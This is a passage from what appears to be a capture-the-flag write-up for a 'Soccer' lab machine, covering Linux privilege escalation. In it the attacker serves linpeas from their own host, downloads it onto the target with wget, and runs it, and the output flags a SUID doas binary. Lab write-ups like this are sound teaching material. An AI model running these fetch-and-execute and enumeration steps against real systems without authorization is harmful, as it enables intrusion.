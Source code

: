 ## Privilege Escalation

- list our privileges

```bash
player@soccer:~$ sudo -l 
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
player@soccer:~$
```

- let’s use linpeas to make the enumeration faster

```bash
juba@juba-kal$ python3 -m http.server 1337
```

```jsx
player@soccer:~$ wget http://10.10.16.32:1337/peas.sh
```

```bash
player@soccer:~$ chmod +x peas.sh
player@soccer:~$ ./peas.sh | tee peas_result.txt
player@soccer:~$ cat peas_result.txt
<SNIP>
                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════                                                                                                                      
                                         ╚═══════════════════╝                                                                                                                                                               
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                             
-rwsr-xr-x 1 root root 42K Nov 17 09:09 /usr/local/bin/doas                                                                                                                                                                  
<SNIP>
```

- If you don’t know what `doas` is:
    - DOAS stands for "OpenBSD's version of sudo" and is a utility that allows a user to execute a command with the privileges of another user or as the root user. It is a simpler alternative to the sudo utility used in many Linux distributions.
    - DOAS was created by the OpenBSD project as a lightweight alternative to the sudo utility. It is designed to be simpler and more secure than sudo, with a smaller code base and fewer features. DOAS is commonly used on OpenBSD and other BSD-based systems, but it can also be installed on many Linux distributions.
    - DOAS works by reading a configuration file (/etc/doas.conf) that specifies which users are allowed to execute commands with elevated privileges. The configuration file also specifies which commands the users are allowed to execute and which privileges they are allowed to use.

